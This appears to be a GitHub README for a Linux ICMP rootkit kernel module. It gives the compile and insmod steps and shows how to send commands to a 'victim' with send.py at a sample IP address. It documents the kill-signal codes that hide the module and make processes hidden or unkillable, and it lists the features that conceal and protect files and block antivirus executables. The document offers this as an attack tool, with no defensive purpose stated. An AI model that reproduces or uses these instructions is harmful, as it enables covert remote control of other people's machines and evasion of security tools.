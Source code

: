 # ICMP Rootkit

A rootkit is a type of malicious software designed to provide unauthorized access or
control over a computer system, while remaining hidden from detection. Rootkits typically
operate in core of computer’s operating system, giving them significant control while
avoiding detection. ICMP allows us to create a connection with infected computer and directly via cli send malicious data or commands to it. 

## Compilation and insertion of module

1. Compile using make

```shell
cd Rootkit && make
```

2. Insert module into linux kernel
   
```shell
sudo insmod rk.ko
```

3. To check for module presence

```shell
sudo lsmod | head
```

4. To delete module from linux kernel

```shell
sudo rmmod rk
```

## Usage of icmp

After injecting module into victims system, you can send commands via python script ```send.py``` like this:

```shell
sudo python3 send.py <ip> <command>
```

Example:

```shell
sudo python3 send.py 175.120.101.34 "kill -64 1"
```

## Module functionality

1. To hide a rootkit module
   
```shell
sudo kill -64 <pid>
```

2. To show a rootkit module

```shell
sudo kill -63 <pid>
```

3. To hide some process (and make it unkillable)

```shell
sudo kill -62 <pid to hide>
```

3. To return hidden process back

```shell
sudo kill -61 <pid of hidden>
```

4. Files and folders with prefix "arman" are not showed during ```ls```
5. Victim can't ```cat``` , ```echo```, ```touch```, ```find``` files with prefix "arman"
6. Folders with prefix ```virus``` neither can be deleted with ```rm -rf``` nor with ```rmdir```
7. Victim can't launch executable with prefix "antivirus"

